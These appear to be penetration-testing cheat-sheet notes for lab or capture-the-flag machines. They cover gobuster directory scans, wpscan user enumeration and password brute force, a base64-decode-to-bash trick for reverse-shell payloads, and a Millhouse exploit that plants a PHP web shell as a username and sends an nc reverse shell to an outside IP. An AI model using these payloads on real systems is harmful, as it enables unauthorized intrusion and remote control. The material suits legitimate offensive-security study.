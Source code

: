Here's the command:

```bash
gobuster dir -u http://192.168.229.143 -w /usr/share/wordlists/dirb/big.txt -p pattern
```

# **WordPress**

- To enumerate vulnerabilities, users, and plugins in WordPress:
    
    ```bash
    wpscan --url "http://10.0.2.19/wordpress" -e at,ap,u
    ```
    
- If the username is **`admin`**, try default credentials:
    
    ```bash
    wpscan --url "http://10.0.2.19/wordpress" -U admin -P ~/rockyou.txt
    ```
    
    **Note:** This might consume a lot of time and should be considered as a last option. Try to identify the password through any leakage, hints, or enumeration.
    

# **Remote Code Execution (RCE)**

- If you have RCE and the reverse shell payload is not working, try encoding it in base64:
    
    ```bash
    echo "payload" | base64
    ```
    
- In the vulnerable parameter, use the following command to decode and execute the payload:
    
    ```bash
    echo "b64 encoded payload" | base64 -d | bash
    ```
    

# **Checking for UNC Paths - `\\IP\FILE` in Parameters**

# **Millhouse Web App**

- Register a user with the name **`<?php system($_POST["cmd"]);?>`**
- Exploit: [Millhouse Web App Exploit](https://www.exploit-db.com/exploits/47121)
    - Login once and record the REQUEST using Burp Suite.
    - Modify the login request to continue the exploitation.
    - Use LFI to include the session path such as **`/var/lib/php/sessions/sess_<my session>`**.
    - Write the command you want to execute, for example, a reverse shell, in POST variability.
    - Example: **`&cmd=nc 8.8.8.8 4444 -e /bin/bash`**
- Now, you have a shell, and you can find **`local.txt`** in **`/var/www`**.

# **Privilege Escalation (PE)**
